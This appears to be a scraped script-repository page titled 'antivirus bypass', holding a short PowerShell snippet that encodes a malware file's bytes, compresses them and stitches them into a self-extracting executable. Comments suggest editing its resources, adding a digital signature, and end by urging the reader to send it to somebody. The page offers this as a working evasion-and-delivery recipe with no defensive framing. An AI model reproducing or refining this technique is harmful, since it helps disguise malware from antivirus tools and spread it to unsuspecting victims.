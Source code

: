 ```yaml
---
pid:            4951
author:         greg zakharov
title:          antivirus bypass
date:           2014-03-02 15:52:24
format:         posh
parent:         0

---
```


# antivirus bypass

### [download](//scripts/4951.ps1)



```posh
[String]::Join(' ', [IO.File]::ReadAllBytes(#malware)) | Out-File -enc ASCII raw
&7za a -mx9 raw.zip raw
&cmd copy /b raw.zip + ZipSFX + ReverseActions bypass.exe
#optional:
#1) edit bypass.exe with resource editor
#2) add digital signature
#at last do not forget send it somebody
```
